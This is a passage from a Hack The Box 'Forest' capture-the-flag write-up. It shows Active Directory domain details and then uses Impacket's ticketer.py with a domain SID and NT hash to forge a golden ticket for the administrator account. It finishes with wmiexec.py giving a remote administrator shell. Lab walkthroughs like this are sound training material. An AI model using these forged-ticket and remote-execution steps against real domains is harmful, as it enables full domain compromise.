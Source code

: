 ```bash
ObjectClass : domainDNS
ObjectGUID : dff0c71a-a949-4b26-8c7b-52e3e2cb6eab
ParentDomain :
PDCEmulator : FOREST.htb.local
PublicKeyRequiredPasswordRolling : True
QuotasContainer : CN=NTDS Quotas,DC=htb,DC=local
ReadOnlyReplicaDirectoryServers : {}
ReplicaDirectoryServers : {FOREST.htb.local}
RIDMaster : FOREST.htb.local
SubordinateReferences : {DC=ForestDnsZones,DC=htb,DC=local, DC=DomainDnsZones,DC=htb,DC=local, CN=Configuration,DC=htb,DC=local}
SystemsContainer : CN=System,DC=htb,DC=local
UsersContainer : CN=Users,DC=htb,DC=local
```

With that, we can create a TGT for the user administrator \(it can be any valid user or servie account\) using ticketer.py as follows:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Forest\]

└──╼ $ticketer.py -domain-sid S-1-5-21-3072663084-364016917-1341370565 -nthash 819af826bb148e603acb0f33d17632f8 -domain htb.local administrator

Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation

\[\*\] Creating basic skeleton ticket and PAC Infos

\[\*\] Customizing ticket for htb.local/administrator

\[\*\] PAC\_LOGON\_INFO

\[\*\] PAC\_CLIENT\_INFO\_TYPE

\[\*\] EncTicketPart

\[\*\] EncAsRepPart

\[\*\] Signing/Encrypting final ticket

\[\*\] PAC\_SERVER\_CHECKSUM

\[\*\] PAC\_PRIVSVR\_CHECKSUM

\[\*\] EncTicketPart

\[\*\] EncASRepPart

\[\*\] Saving ticket in administrator.ccache

We then set the environment variable KRB5CCNAME to the administrator.ccache file and use wmiexec.py to remote onto the box:

```bash
┌─[rin@parrot]─[~/boxes/Forest]
└──╼ $export KRB5CCNAME=administrator.ccache
┌─[rin@parrot]─[~/boxes/Forest]
└──╼ $wmiexec.py htb.local/administrator@forest.htb.local -k -no-pass
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb.local\administrator
C:\>
```
